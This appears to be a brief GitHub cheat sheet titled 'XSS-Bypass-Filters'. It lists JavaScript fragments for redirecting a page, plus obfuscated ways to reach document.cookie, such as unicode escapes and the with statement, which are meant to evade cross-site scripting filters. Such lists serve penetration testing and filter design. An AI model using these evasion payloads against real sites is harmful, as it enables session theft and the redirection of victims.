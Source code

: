 # XSS-Bypass-Filters

### Redirection
```
document.location=
window.location=
this["window"]["location"]=
document.location.href=
```

### Link


### Cookies

```
document.cookie 
document['cookie']
with(document)alert(cookie)
doc\u0075ment.cookie
doc\u0075ment['cookie']
```



